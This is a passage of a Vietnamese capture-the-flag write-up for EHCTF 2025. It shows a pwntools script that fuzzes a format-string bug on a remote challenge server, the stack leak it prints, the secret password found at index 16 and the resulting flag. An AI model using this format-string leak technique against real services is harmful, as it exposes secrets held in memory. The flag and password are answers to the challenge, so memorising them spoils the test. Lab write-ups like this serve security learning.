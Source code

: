 Khi đã biết được trên stack của nó có các string rồi thì mình viết một script đề fuzzing xem nó còn gì thêm nữa không

```py
from pwn import *

context.log_level = 'error'

for i in range(1, 51):
    try:
        p = remote('challenge.ctf.ehc-fptu.club', 22909)
        p.sendlineafter(b'password:', f'%{i}$s'.encode())
        p.recvuntil(b'Checking your password:')
        leak = p.recvline().strip()
        print(f'Index {i} -> {leak}')
        p.close()
    except EOFError:
        p.close()
```

Và khi fuzz được một hồi mình nhận thấy ở index 16 có xuất hiện secret password, và việc của ta chỉ là lấy password đó và nhập vào thôi (đừng search password đó trên mạng...)

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/EHCTF
$ python3 secrect.py
Index 1 -> b'Checking your password:'
Index 2 -> b'(null)'
Index 3 -> b'H='
Index 5 -> b'(null)'
Index 6 -> b':3:3'
Index 7 -> b''
Index 8 -> b'keep going...'
Index 9 -> b'(null)'
Index 11 -> b'(null)'
Index 12 -> b'(null)'
Index 13 -> b'(null)'
Index 14 -> b'(null)'
Index 15 -> b'(null)'
Index 16 -> b'secret password: 177013'
```

```sh
alter ^ Sol in ~/CTFs/2025/EHCTF
$ nc challenge.ctf.ehc-fptu.club 37918
Enter your password:
177013
Checking your password:177013
Correct password! Here is your flag:
EHCTF{how_cAN_yoU_S3E_thlS_seCre7_ad5cd203a6d0}
```
